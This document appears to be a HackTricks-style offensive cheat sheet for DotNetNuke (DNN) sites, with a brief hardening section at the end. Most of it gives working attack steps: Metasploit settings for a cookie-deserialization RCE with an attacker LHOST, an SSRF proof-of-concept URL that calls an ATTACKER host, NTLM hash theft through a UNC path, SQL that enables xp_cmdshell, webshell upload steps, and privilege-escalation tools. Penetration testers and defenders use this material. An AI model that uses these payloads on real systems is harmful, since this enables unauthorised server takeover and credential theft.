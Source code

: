 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

If you enter as **administrator** in DNN it's easy to obtain **RCE**, however a number of *unauthenticated* and *post-auth* techniques have been published in the last few years.  The following cheat-sheet collects the most useful primitives for both offensive and defensive work.

---
## Version & Environment Enumeration

* Check the *X-DNN* HTTP response header – it usually discloses the exact platform version.
* The installation wizard leaks the version in `/Install/Install.aspx?mode=install` (accessible on very old installs).
* `/API/PersonaBar/GetStatus` (9.x) returns a JSON blob containing `"dnnVersion"` for low-privilege users.
* Typical cookies you will see on a live instance:
  * `.DOTNETNUKE` – ASP.NET forms authentication ticket.
  * `DNNPersonalization` – contains XML/serialized user profile data (old versions – see RCE below).

---
## Unauthenticated Exploitation

### 1. Cookie Deserialization RCE  (CVE-2017-9822 & follow-ups)
*Affected versions ≤ 9.3.0-RC*

`DNNPersonalization` is deserialized on every request when the built-in 404 handler is enabled.  Crafted XML can therefore lead to arbitrary gadget chains and code execution.

```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
The module automatically chooses the right path for patched but still vulnerable versions (CVE-2018-15811/15812/18325/18326).  Exploitation works **without authentication** on 7.x–9.1.x and with a *verified* low-privilege account on 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Affected versions < 9.13.8  –  Patch released April 2025*

A bypass of the older `DnnImageHandler` fix enables an attacker to coerce the server to issue **arbitrary GET requests** (semi-blind SSRF).  Practical impacts:

* Internal port scan / metadata service discovery in cloud deployments.
* Reach hosts otherwise firewalled from the Internet.

Proof-of-concept (replace `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
The request is triggered in the background; monitor your listener for callbacks.

### 3. NTLM Hash Exposure via UNC Redirect  (CVE-2025-52488)
*Affected versions 6.0.0 – 9.x (< 10.0.1)*

Specially crafted content can make DNN attempt to fetch a resource using a **UNC path** such as `\\attacker\share\img.png`.  Windows will happily perform NTLM negotiation, leaking the server-account hashes to the attacker.  Upgrade to **10.0.1** or disable outbound SMB at the firewall.

### 4. IP Filter Bypass  (CVE-2025-52487)
If administrators rely on *Host/IP Filters* for admin portal protection, be aware that versions prior to **10.0.1** can be bypassed by manipulating `X-Forwarded-For` in a reverse-proxy scenario.

---
## Post-Authentication to RCE

### Via SQL console
Under **`Settings → SQL`** a built-in query window allows execution against the site database.  On Microsoft SQL Server you can enable **`xp_cmdshell`** and spawn commands:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```

### Via ASPX webshell upload
1. Go to **`Settings → Security → More → More Security Settings`**.
2. Append `aspx` (or `asp`) to **Allowable File Extensions** and **Save**.
3. Browse to **`/admin/file-management`** and upload `shell.aspx`.
4. Trigger it at **`/Portals/0/shell.aspx`**.

---
## Privilege Escalation on Windows
Once code execution is achieved as **IIS AppPool\<Site>**, common Windows privilege-escalation techniques apply.  If the box is vulnerable you can leverage:

* **PrintSpoofer** / **SpoolFool** to abuse *SeImpersonatePrivilege*.
* **Juicy/Sharp Potatoes** to escape *Service Accounts*.

---
## Hardening Recommendations (Blue Team)

* **Upgrade** to at least **9.13.9** (fixes SSRF bypass) or preferably **10.0.1** (IP filter & NTLM issues).
* Remove residual **`InstallWizard.aspx*`** files after installation.
* Disable outbound SMB (ports 445/139) egress.
* Enforce strong *Host Filters* on the edge proxy rather than within DNN.
* Block access to `/API/RemoteContentProxy` if unused.



## References

* Metasploit `dnn_cookie_deserialization_rce` module documentation – practical unauthenticated RCE details (GitHub).
* GitHub Security Advisory GHSA-3f7v-qx94-666m – 2025 SSRF bypass & patch information.
{{#include ../../banners/hacktricks-training.md}}
